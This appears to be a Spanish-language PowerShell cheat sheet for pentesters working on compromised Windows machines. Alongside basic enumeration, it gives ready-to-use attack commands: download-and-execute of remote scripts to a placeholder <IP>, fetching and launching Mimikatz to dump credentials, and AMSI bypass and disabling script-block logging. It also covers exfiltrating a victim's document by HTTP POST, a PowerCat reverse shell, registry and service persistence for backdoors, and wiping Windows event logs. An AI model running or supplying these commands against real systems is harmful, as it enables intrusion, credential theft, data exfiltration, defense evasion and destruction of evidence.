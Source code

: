 # 🛠️ PowerShell for Pentesters

Comandos útiles en PowerShell para tareas de reconocimiento, post-explotación, evasión y búsqueda de información sensible en sistemas Windows comprometidos.

---

## 📋 Ver servicios

```powershell
Get-Service | ForEach-Object { $_.Name }

```

📍 Ubicaciones de los servicios ejecutados

```powershell
Get-WmiObject -Class win32_service | Format-List *

Get-WmiObject -Class win32_service | Sort-Object -Property PathName -Unique | Format-List PathName
```

🧠 Listar procesos únicos

```powershell
Get-Process | Sort-Object -Property ProcessName -Unique
```

👤 Enumeración de usuarios

```powershell
whoami
whoami /all
Get-WmiObject -Class Win32_ComputerSystem | Select-Object UserName
Get-LocalUser
net user
```

🛡️ Grupos y privilegios

```powershell
net localgroup administrators
```

🌐 Enumeración de red

```powershell
Get-NetAdapter | Format-Table
Get-NetIPAddress | Format-Table
Get-NetRoute
Get-NetTCPConnection | Where-Object { $_.State -eq "Established" }
```

🖥️ Información del sistema

```powershell
Get-WmiObject -Class Win32_OperatingSystem
Get-WmiObject -Class Win32_ComputerSystem
Get-ChildItem Env:
```

🔍 Buscar archivos sensibles por contenido

```powershell
Select-String -Path "C:\\Users\\*\\Documents\\*.txt" -Pattern "password"

Get-ChildItem -Path "C:\\Users" -Recurse -Include *.txt -ErrorAction SilentlyContinue |
Select-String -Pattern "password"
```

🗂️ Buscar archivos sensibles por nombre

```powershell
Get-ChildItem -Path "C:\\Users" -Recurse -ErrorAction SilentlyContinue -Force |
Where-Object { $_.Name -match "password|contraseña" }

Get-ChildItem -Path "C:\\Users" -Recurse -Include *password*,*passwords*,*contraseña* -File -ErrorAction SilentlyContinue
```

📅 Persistencia

```powershell
Get-ScheduledTask | Select-Object TaskName, TaskPath, State
Get-ChildItem -Path "C:\\Users\\*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup"
```

🔧 Descarga y ejecución remota de scripts

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://<IP>/script.ps1")
```


🧱 Bypass de restricciones

```powershell

[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
AVANZADO

🔐 Credenciales en memoria

```powershell
# Dump de credenciales con Mimikatz (si ya tienes permisos)
Invoke-Expression -Command "& {Invoke-WebRequest -Uri 'http://<IP>/mimikatz.exe' -OutFile 'C:\Windows\Temp\mimikatz.exe'; Start-Process 'C:\Windows\Temp\mimikatz.exe'}"
```
💡 Alternativamente, puedes ejecutar Mimikatz directamente en PowerShell usando Invoke-Mimikatz de PowerSploit si lo cargas manualmente.

🧠 Enumerar software instalado
```powershell
Get-WmiObject -Class Win32_Product | Select-Object Name, Version
```

🧰 Enumerar programas en ejecución
```powershell
gps | where {$_.Path -like "*Program Files*"} | select Name, Path
```

📄 Archivos recientes abiertos por usuarios
```powershell
Get-ChildItem "C:\Users\*\AppData\Roaming\Microsoft\Windows\Recent" -Recurse
```

🧾 Ver historial de PowerShell
```powershell
Get-Content (Get-PSReadlineOption).HistorySavePath
```

🕳️ POST-EXPLOTACIÓN / PRIVILEGE ESCALATION


🔒 Buscar archivos con permisos inseguros

```powershell
icacls "C:\Program Files" | findstr "(F)"  # Busca archivos con permisos Full para Everyone o Users
```

🧬 Información de drivers y controladores
```powershell
Get-WmiObject Win32_SystemDriver | Where-Object { $_.State -eq "Running" } | Select Name, PathName
```

🔌 Enumerar DLL hijacking targets

```powershell
Get-ChildItem -Path "C:\Program Files\", "C:\Program Files (x86)\" -Recurse -Include *.exe -ErrorAction SilentlyContinue |
ForEach-Object {
    $dllPath = Join-Path $_.DirectoryName "example.dll"
    if (-Not (Test-Path $dllPath)) {
        Write-Output "$dllPath podría ser vulnerable"
    }
}
```

🧱 BYPASS DE SEGURIDAD AVANZADO


🔓 Desactivar el AMSI (variante mejorada)

```powershell
$Amsi = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$Field = $Amsi.GetField('amsiInitFailed','NonPublic,Static')
$Field.SetValue($null,$true)
```

🔍 Desactivar ScriptBlock Logging

```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 0
```

📤 EXFILTRACIÓN Y COMUNICACIÓN

🔄 Exfiltrar archivos a servidor remoto

```powershell
Invoke-WebRequest -Uri "http://<IP>/upload" -Method POST -InFile "C:\Users\victim\Desktop\important.docx"
```

🛰️ Reversar Shell con PowerShell (PowerCat)

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
powercat -c <IP> -p 4444 -e cmd
```

🕵️‍♂️ PERSISTENCIA AVANZADA


🧠 Añadir key en el registro para persistencia

```powershell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\malicious\reverse.exe"
```

🧱 Crear servicio persistente

```powershell
New-Service -Name "UpdateService" -BinaryPathName "C:\malicious\backdoor.exe" -StartupType Automatic
Start-Service -Name "UpdateService"
```

🧽 LIMPIEZA Y EVIDENCIAS

🧹 Borrar logs de eventos

```powershell
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
```

⚠️ Solo para cuando ya no se requiere mantener presencia, o como parte de un ejercicio controlado.

📚 FUENTES Y HERRAMIENTAS RECOMENDADAS
PowerSploit

PowerView: https://github.com/PowerShellMafia/PowerSploit 

Nishang: https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

PowerCat: https://github.com/besimorhino/powercat

Empire (PS Agent): https://github.com/BC-SECURITY/Empire
